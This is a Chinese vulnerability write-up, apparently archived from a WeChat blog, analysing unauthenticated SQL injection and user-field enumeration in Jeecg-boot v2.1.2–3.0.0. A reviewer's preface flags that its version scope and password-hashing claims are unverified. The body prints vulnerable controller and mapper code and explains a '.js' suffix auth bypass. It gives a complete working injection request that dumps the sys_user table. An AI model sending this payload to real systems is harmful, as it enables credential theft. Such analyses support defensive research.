## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：声称2.1.2至3.0.0，二开系统测试；需静态后缀anon规则和特定控制器存在

代码与实验材料：Controller/mapper片段、.js绕过及checkOnlyUser枚举；关键认证配置/结果依图，/api是实例上下文

来源证据范围：chobits02/C4原创，无具体上游tag/patch

- **结论使用边界（1）**：数据库和密码算法表述未被代码证明；依据：table参数是表表达式非任意数据库；仅PasswordUtil.encrypt签名不能证明带盐MD5算法，需要实际实现。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：指纹与版本范围过度泛化；依据：称唯一特征验证码接口；二开实例不能证明所有2.1.2至3.0.0默认配置相同；checkOnlyUser需要区分存在性布尔泄漏与直接返回敏感数据。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  Jeecg-boot v2.1.2-v3.0.0 SQL注入漏洞+敏感接口分析  
原创 chobits02  C4安全   2025-07-21 06:21  
  
前言  
#### 短期攻防结束了，公司几个系统的漏洞就给到了开发的手里，仔细一看都是用相同开源框架二次开发而来的，版本都比较老了，都是基于Jeecg-boot二次开发  
#### 该系统在v2.1.2-v3.0.0版本中存在SQL注入漏洞，还有其他敏感接口，下面就分析看下  
#### Jeecg-boot是北京国炬信息技术有限公司开发的低代码开发框架  
  
  
#### 框架只是个后端Java框架，前端都是不一样的，唯一能判断的特征可能是系统自带的验证码接口，如下  
```
/api/sys/randomImage/一串数字
```  
  
  
  
  
然后直接来到漏洞接口地址  
```
/api/sys/ng-alain/getDictItemsByTable
```  
  
方法位于  
NgAlainController当中  
  
  
```
@RequestMapping(value = "/getDictItemsByTable/{table}/{key}/{value}", method = RequestMethod.GET)
public Object getDictItemsByTable(@PathVariable String table,@PathVariable String key,@PathVariable String value) {    
  return this.ngAlainService.getDictByTable(table,key,value);
}
```  
  
然后根据service层追踪到mapper层  
  
  
  
可以看到参数直接可以指定查询的数据库  
  
  
```
@Select("select ${key} as \"label\",${value} as \"value\" from ${table}")
```  
  
这里key和value可以指定任意数据库的两个字段，然后table可以指定任意数据库  
  
不过直接请求这个接口是需要鉴权的，这就要提到接口放行的配置了  
  
  
可以注意到这个接口传参是以  
/getDictItemsByTable/{table}/{key}/{value}  
  
通过斜杠传参，而看系统放行配置，存在匹配任意URL，只要结尾是文件格式的即可放行  
  
  
  
两者结合一下就能造成未授权的SQL注入漏洞了，一般都是查sys_user这个自带表  
```
GET /api/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js HTTP/1.1
Host: 
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Fetch-Dest: empty
Accept: application/json, text/plain, */*
Sec-Fetch-Mode: cors
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
```  
  
  
  
不过你懂得，这些密码是带盐值加密的MD5，逆向推出明文需要先生成数据库之后碰撞，而系统里面的密码是这么个加密逻辑：  
```
PasswordUtil.encrypt(username, password, salt);
```  
  
通过用户名、明文密码、盐值三者加密而来，所以一般想破解你还要下载框架自己加密一个字典，还挺麻烦的  
  
  
然后下面一个接口是  
/api/sys/user/checkOnlyUser  
  
  
  
同样无需鉴权，很简单用QueryWrapper查用户  
  
  
  
只要是SysUser里的字段，你都能查询是否有对应的用户有这个字段的值  
  
  
  
username、realname、password、salt、email等等，都能爆破是否存在  
  
  
  
  
  
但是用处不大  
  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
  
  
END  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
